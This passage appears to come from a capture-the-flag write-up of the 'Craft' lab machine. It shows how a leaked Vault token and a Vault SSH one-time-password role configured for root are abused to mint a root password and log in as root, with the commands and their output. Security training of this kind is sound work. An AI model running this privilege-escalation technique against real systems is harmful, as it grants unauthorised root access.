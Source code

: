 ```
drwx------ 4 gilfoyle gilfoyle 4096 Feb  9  2019 .
drwxr-xr-x 3 root     root     4096 Feb  9  2019 ..
-rw-r--r-- 1 gilfoyle gilfoyle  634 Feb  9  2019 .bashrc
drwx------ 3 gilfoyle gilfoyle 4096 Feb  9  2019 .config
-rw-r--r-- 1 gilfoyle gilfoyle  148 Feb  8  2019 .profile
drwx------ 2 gilfoyle gilfoyle 4096 Feb  9  2019 .ssh
-r-------- 1 gilfoyle gilfoyle   33 Feb  9  2019 user.txt
-rw------- 1 gilfoyle gilfoyle   36 Nov  7 17:55 .vault-token
-rw------- 1 gilfoyle gilfoyle 2546 Feb  9  2019 .viminfo
```
Going back to the github repo will reveal a ```Vault``` folder and inside is a ```secrets.sh``` script.
```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
After reading the documentation on vault and how it works I figured out that is the steup for a one time password generator. Basically I can trigger it to generate a password for that can be used to ssh in as the user root.
<br><br>
I generate a password using the command below. The password is the ```key```
```
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=10.10.10.110
Key                Value
---                -----
lease_id           ssh/creds/root_otp/d1c4244a-97ee-b2c4-819a-bd09079bde97
lease_duration     768h
lease_renewable    false
ip                 10.10.10.110
key                cb7e3efc-fb76-2295-dd94-ad2c51c219f1
key_type           otp
port               22
username           root
```
Then ssh as the user root and use the key as the password
```
gilfoyle@craft:~$ ssh root@10.10.10.110
The authenticity of host '10.10.10.110 (10.10.10.110)' can't be established.
ECDSA key fingerprint is SHA256:sFjoHo6ersU0f0BTzabUkFYHOr6hBzWsSK0MK5dwYAw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.110' (ECDSA) to the list of known hosts.


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/
```